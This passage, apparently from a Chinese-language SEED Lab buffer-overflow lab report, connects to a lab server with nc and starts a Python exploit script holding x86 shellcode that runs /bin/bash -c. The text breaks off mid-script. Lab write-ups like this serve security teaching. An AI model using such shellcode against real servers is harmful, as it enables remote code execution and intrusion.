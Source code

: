 ![修改shellcode](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/修改shellcode.png)

### Task 2：Level-1 Attack  

使用`echo hello | nc 10.9.0.5 9090`命令连接server1 9090端口，建立TCP连接后服务端会自动运行stack程序。

![测试服务nc](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/测试服务nc.png)

根据ebp地址和buffer地址，构造python脚本如下：

```python
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
```